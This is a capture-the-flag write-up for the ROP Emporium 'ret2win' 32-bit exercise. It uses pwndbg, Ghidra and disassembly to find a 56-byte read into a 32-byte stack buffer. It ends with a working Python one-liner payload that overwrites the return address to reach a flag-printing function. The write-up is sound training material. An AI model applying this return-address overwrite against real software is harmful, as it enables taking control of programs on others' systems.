 Firstly, we check out what functions are in the file. I used `info functions` in the debugger.

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08048374  _init
0x080483b0  read@plt
0x080483c0  printf@plt
0x080483d0  puts@plt
0x080483e0  system@plt
0x080483f0  __libc_start_main@plt
0x08048400  setvbuf@plt
0x08048410  memset@plt
0x08048420  __gmon_start__@plt
0x08048430  _start
0x08048470  _dl_relocate_static_pie
0x08048480  __x86.get_pc_thunk.bx
0x08048490  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
```

So there's a couple interesting functions here: `pwnme` and `ret2win`. Next, I opened up Ghidra to check out what each functions do.

```c
void pwnme(void)
{
  undefined1 local_28 [32];
  
  memset(local_28,0,32);
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n");
  printf("> ");
  read(0,local_28,56);
  puts("Thank you!");
  return;
}
```

This is the `pwnme` function. This function initialize a 32-byte buffer. The function also reads in a 56-byte input. So we can overflow this buffer into the return address of the stack frame.

```c
void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

This is the `ret2win` function. It pretty much just reads the flag and outputs it.

Disassembling the `ret2win` function gives us this:

```
(gdb) disas ret2win
Dump of assembler code for function ret2win:
   0x0804862c <+0>:     push   %ebp
   0x0804862d <+1>:     mov    %esp,%ebp
   0x0804862f <+3>:     sub    $0x8,%esp
   0x08048632 <+6>:     sub    $0xc,%esp
   0x08048635 <+9>:     push   $0x80487f6
   0x0804863a <+14>:    call   0x80483d0 <puts@plt>
   0x0804863f <+19>:    add    $0x10,%esp
   0x08048642 <+22>:    sub    $0xc,%esp
   0x08048645 <+25>:    push   $0x8048813
   0x0804864a <+30>:    call   0x80483e0 <system@plt>
   0x0804864f <+35>:    add    $0x10,%esp
   0x08048652 <+38>:    nop
   0x08048653 <+39>:    leave
   0x08048654 <+40>:    ret
End of assembler dump.
```

So the address for the `ret2win` function is `0x0804862c`. Now we need to figure out the buffer that allows us to overflow into the return address of the `pwnme` function. I used `cyclic` in the `pwndbg` to generate input and found that it takes 44 bytes to reach the return address of the `ret2win` function. So I crafted this payload:

```sh
python -c 'import sys; sys.stdout.buffer.write(b"A" * 44 + b"\x2c\x86\x04\x08")' | ./ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```
